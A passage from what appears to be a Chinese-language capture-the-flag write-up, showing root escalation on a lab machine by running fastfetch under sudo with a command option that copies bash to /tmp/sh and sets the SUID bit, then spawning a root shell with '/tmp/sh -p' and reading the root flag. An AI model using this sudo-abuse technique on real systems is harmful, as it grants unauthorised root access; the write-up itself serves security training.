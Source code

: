 (为什么一定要加上`structure`，因为要使用它告诉`fastfetch`加载`command`)

利用这个特性，我们让`fastfetch`复制 `/bin/bash` 到 `/tmp/sh`，并给 `/tmp/sh` 加上SUID权限位。
```bash
qaq@eeeeeasy:~$ sudo /usr/bin/fastfetch --structure "command" --command-text "cp /bin/bash /tmp/sh && chmod +s /tmp/sh"
       _,met$$$$$gg.
    ,g$$$$$$$$$$$$$$$P.
  ,g$$P"         """Y$$.".
 ,$$P'               `$$$.
',$$P       ,ggs.     `$$b:
`d$$'     ,$P"'   .    $$$
 $$P      d$'     ,    $$$P
 $$:      $.   -    ,d$$'
 $$;      Y$b._   _,d$P'
 Y$$.    `.`"Y$$$$P"'
 `$$b      "-.__
  `Y$$
   `Y$$.
     `$$b.
       `Y$$b.
          `"Y$b._
             `"""
```
检查一下 `/tmp/sh` 的权限：
```bash
qaq@eeeeeasy:~$ ls -la /tmp/
total 1184
drwxrwxrwt 10 root root    4096 May 17 05:14 .
drwxr-xr-x 18 root root    4096 Mar 18 20:37 ..
drwxrwxrwt  2 root root    4096 May 17 04:38 .font-unix
drwxrwxrwt  2 root root    4096 May 17 04:38 .ICE-unix
-rwsr-sr-x  1 root root 1168776 May 17 05:13 sh # <--- SUID位已设置，所有者是root
drwx------  3 root root    4096 May 17 04:38 systemd-private-136e6172f431486383a8b142a9e39960-apache2.service-3yeZai
# ...
```
可以看到 `/tmp/sh` 已经是 `root` 用户所有，并且设置了SUID和SGID位。
现在直接执行 `/tmp/sh -p` 来获取root权限的shell (`-p` 参数使得bash不会因为euid不同而放弃特权)。

```bash
qaq@eeeeeasy:~$ /tmp/sh -p
sh-5.0# id
uid=1001(qaq) gid=1001(qaq) euid=0(root) egid=0(root) groups=0(root),1001(qaq)
```
Boom! `euid=0(root)`，成功拿到root权限！

最后一步，读取root flag：
```bash
sh-5.0# cat /root/root.txt 
flag{root-818a8bc5d566d7c856f14eec2791cd78}
```

收工！打完收flag，美滋滋！

